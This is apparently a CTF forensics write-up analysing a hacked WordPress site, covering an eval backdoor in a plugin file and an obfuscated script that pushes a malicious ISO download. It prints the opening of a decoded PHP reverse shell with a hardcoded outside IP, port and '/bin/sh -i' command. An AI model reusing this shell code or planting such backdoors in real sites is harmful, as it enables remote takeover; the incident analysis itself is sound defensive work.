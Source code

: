 ```yaml
---
layout: post
title:  "HTB University CTF 2022: Fake News"
date:   2022-12-05 00:00:00
tags: [Wordpress, Binary, PHP]
description: 'Analyse how a wordpress page have been hacked.'
categories: [WriteUp, Forensic, HTB-University-CTF-2022]
---
```


## Challenge Information
![Desktop View](/assets/img/fake-news-info.png){: .shadow }
A wordpress website has been compomised. Unluckly there is no backup from
before the hack. The job is to remove all dangerous artifacts and recover the
system to its previous state.


## Investigate the Wordpress source code
We are given a folder named `html` which contains the source code of the hacked
WordPress page. Due to the number of files I searched for the last modified
file using the command `ls -ltA --full-time`.
![ls output](/assets/img/fake-news-ls.png)
I ended up with two folders that had been changed on `2022-11-24`. The next
logical step was to find all files that had been modified within that
timeframe.
```bash
$ find . -type f -newermt "nov 24, 2022" -ls | grep -v png

... Nov 24 17:28 ./wp-blogs/2022/11/style.css
... Nov 24 17:28 ./wp-blogs/2022/11/index.php
... Nov 24 17:22 ./wp-content/plugins/plugin-manager/plugin-manager.php
... Nov 24 17:22 ./wp-content/plugins/plugin-manager/plugin.php
... Nov 24 16:11 ./wp-content/themes/maintheme/style.css
... Nov 24 16:11 ./wp-content/themes/maintheme/footer.php
... Nov 24 16:11 ./wp-content/themes/maintheme/header.php
... Nov 24 16:12 ./wp-content/themes/maintheme/sidebar.php
... Nov 24 16:11 ./wp-content/themes/maintheme/index.php
... Nov 24 16:10 ./.htaccess
... Nov 24 16:09 ./wp-config.php
```
By looking carefully through the files, I found two weird looking files:
- `eval` command inside the file `plugin-manager.php`
- obfuscated JavaScript code in the file `index.php` which is stored in the folder `wp-blogs`


## Reverse shell
The eval command seemed base64 encoded, so I decoded it. The decoded PHP script
looks like a typical reverse shell which contains the first part of the flag.
```php
set_time_limit (0);
$VERSION = "1.0";
$ip = '77.74.198.52';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$part1 = "HTB{C0m3_0n";
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
...
```


## Internal Phishing Website
The easiest way to reveal JavaScript code is to run it. I opened up the
malicious `index.php` file inside a virtual machine. At first the page only shows
a train ticket, but after a short time, the browser starts downloading the file
`official_invitation.iso`.

![train ticket](/assets/img/fake-news-ticket.png)

Because I didn't want to mount the file, one of my teammates suggested I unpack
it. It appears that `.iso` files are nothing more than archives. A file called
`official_invitation.exe` was created. Using the following command, I found the
second part of the flag.
```bash
strings official_invitation.exe | tail -100 | head -20
```
